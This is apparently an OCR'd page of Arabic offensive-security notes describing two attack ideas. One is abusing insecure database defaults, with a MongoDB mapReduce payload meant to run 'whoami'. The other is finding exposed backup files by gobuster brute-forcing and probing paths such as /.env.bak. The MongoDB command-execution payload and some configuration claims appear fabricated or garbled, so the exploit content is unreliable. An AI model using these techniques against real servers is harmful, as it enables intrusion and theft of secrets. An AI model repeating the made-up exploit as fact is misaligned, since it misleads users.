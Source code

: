 
# 🧪 المحاولة #3: قواعد البيانات مع إعدادات افتراضية خطرة

### ⚙️ الفكرة:
الكثير من الأنظمة تترك إعدادات افتراضية خطرة مثل:

| DBMS | خطر إعداد افتراضي |
|------|---------------------|
| MySQL | `secure-file-priv` غير مفعل. |
| PostgreSQL | `pg_read_file()` مفعل بدون قيود. |
| MongoDB | `--noscripting=false` ما يسمح بالـ Eval. |
| LDAP | `allow bind_v2` ما يسمح باستغلال قديم. |

### 💥 الاستغلال:
في MongoDB:
```javascript
db.collection.mapReduce(
  function() { emit('x', 'y'); },
  function(k, v) { return system.exec('whoami'); },
  { out: "pwned" }
);
```

### 📌 النتيجة:
- تنفيذ أوامر محلية.
- استغلال ثغرة في التهيئة.

---

# 🧪 المحاولة #4: نسخ احتياطية تحتوي على بيانات سرية

### ⚙️ الفكرة:
بعض التطبيقات تضع نُسَخًا احتياطية (Backups) في أماكن غير آمنة مثل `/backup.sql`, `/old.zip`.

### 💥 الاستغلال باستخدام gobuster:
```bash
gobuster dir -u http://target.com -w /usr/share/wordlists/dirbuster/common.txt
```

أو البحث عن:
```
/backup.sql
/backup.zip
/db.sql
/config.bak
/.env.bak
```
